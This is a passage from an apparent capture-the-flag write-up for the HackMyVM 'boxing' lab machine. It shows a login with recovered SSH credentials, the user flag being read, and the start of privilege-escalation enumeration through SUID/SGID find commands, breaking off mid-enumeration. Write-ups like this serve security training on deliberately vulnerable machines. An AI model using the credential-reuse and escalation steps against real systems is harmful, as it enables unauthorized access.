 SSH Credentials:

```bash
ssh cassius@192.168.0.112:Cassius!123
```

So now we should be able to ssh into that user and grab the first flag:

```bash
garffff@garffff:~/hackmyvm/boxing$ ssh cassius@192.168.0.112
The authenticity of host '192.168.0.112 (192.168.0.112)' can't be established.
ED25519 key fingerprint is SHA256:wQ4AA13WzS+DnZ3CX93jGyXamANQ1waSb5GMik3XS1k.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.112' (ED25519) to the list of known hosts.
cassius@192.168.0.112's password: 
Linux boxing 6.1.0-17-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.69-1 (2023-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb  4 17:20:33 2024 from 192.168.0.30
cassius@boxing:~$ ls
user.txt
cassius@boxing:~$ cat user.txt 
a2b3946358a96bb7a92f61a759a1d972
```

Priv Esc:

Nothing in the SUID:

```bash
cassius@boxing:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

But the GUID has an unknown file:

```bash
cassius@boxing:~$ find / -perm /6000 -type f 2>/dev/null
/usr/sbin/unix_chkpwd
/usr/bin/su
/usr/bin/crontab
/usr/bin/chsh
/usr/bin/incrontab
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/wall
/usr/bin/passwd
/usr/bin/write
/usr/bin/dotlockfile
/usr/bin/chfn
/usr/bin/ssh-agent
/usr/bin/expiry
/usr/bin/umount
/usr/bin/chage
```